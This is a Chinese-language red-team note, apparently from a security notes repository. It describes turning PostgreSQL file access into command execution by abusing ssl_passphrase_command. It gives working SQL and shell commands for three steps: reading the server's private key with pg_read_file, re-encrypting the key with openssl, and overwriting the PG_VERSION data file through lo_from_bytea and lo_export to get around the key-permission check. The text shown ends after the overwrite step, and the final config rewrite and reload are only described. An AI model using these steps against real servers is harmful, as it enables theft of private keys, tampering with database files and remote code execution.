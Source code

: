 方法来自于 https://pulsesecurity.co.nz/articles/postgres-sqli 这篇文章的场景

**利用条件**
- 需要知道 PG_VERSION 文件的位置 (不是 PG_VERSION 文件也行,pgsql限制私钥文件权限必须是0600才能够加载，pgsql目录下的所有0600权限的文件都是可以的,但覆盖后没啥影响的就 PG_VERSION 了)

**描述**

当配置文件中配置了 ssl_passphrase_command ，那么该配置在需要获取用于解密SSL文件密码时会调用该配置的命令。

通过上传 pem，key 到目标服务器上，读取配置文件内容，修改配置文件中的ssl配置改为我们要执行的命令，通过lo_export覆盖配置文件，最后通过 pg_reload_conf 重载配置文件时将执行命令

**复现**

这里以靶机上已经存在的2个密钥文件为例
```
/etc/ssl/certs/ssl-cert-snakeoil.pem
/etc/ssl/private/ssl-cert-snakeoil.key
```

通过文件读取获取私钥

```sql
select pg_read_file('/etc/ssl/private/ssl-cert-snakeoil.key');
```

对私钥文件加密
```bash
# 密码为 12345678
openssl rsa -aes256 -in ssl-cert-snakeoil.key -out private_passphrase.key

# 输出为 base64 格式
cat private_passphrase.key | base64 -w 0 > base.txt
```

上传 private_passphrase.key 到目标服务器上

由于 pgsql 限制私钥文件权限必须是 0600 才能够加载，这里搜索 pgsql 目录下的所有 0600 权限的文件,发现 PG_VERSION 文件符合条件，而且覆盖也没有太大影响

PG_VERSION 与 config_file 文件同目录，上传私钥文件覆盖 PG_VERSION，可绕过权限问题。
```sql
-- 将 private_passphrase.key 覆盖 PG_VERSION 文件
select lo_from_bytea(10004,decode('base64的内容,这里略','base64'));
select lo_export(10004,'/var/lib/postgresql/data/PG_VERSION');
SELECT lo_unlink(10004);
```

在靶机中查看验证是否写入成功

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/49.png)
